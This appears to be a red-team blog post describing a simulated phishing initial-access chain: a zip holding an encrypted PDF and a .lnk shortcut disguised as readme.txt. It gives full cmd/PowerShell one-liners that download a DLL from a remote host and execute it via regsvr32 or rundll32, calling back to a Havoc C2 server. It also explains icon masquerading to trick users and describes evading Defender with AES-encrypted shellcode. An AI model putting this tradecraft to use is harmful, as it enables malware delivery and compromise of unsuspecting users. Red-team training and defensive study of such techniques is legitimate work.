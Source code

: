 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

We will discuss a simple, minimal and baseline approach and we will take into account fews considerations regarding the initial access aspects. 



In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. 
For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. 
The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). 
The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. 
By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/Invoice.PNG">
</p>



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. 
These methods encompass various entry vectors that serve as a foothold into the network. 
One particularly relevant technique is the employment of targeted spear-phishing campaigns. 
In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. 
In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. 
Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


 



## 2) Defender Bypass Payload

We are not going into details on how we created this stealth DLL payload in this blogpost. 
Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. 
The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. 
However, to bypass static signature, the shellcode is encrypted with AES. 
Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AES Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 



## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password inside). Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 

Now we can add the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be performed with the usual suspect IEX Download String function. 🚩

Futhermore, the above command is included inside the readme.lnk file which will lool like this to the end user. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk.PNG">
</p>

Since we don't want to show the typical cmd.exe icon we can then add a specific icon that in this case will be notepad. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk2.PNG">
</p>

__Note:__ Obviously we can create a .lnk file with the desired command and subsequently add the typical pdf icon. 🚩

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk3.PNG">
</p>

Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/down.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && rundll32 %TMP%\h.dll 
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`



## 4) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams
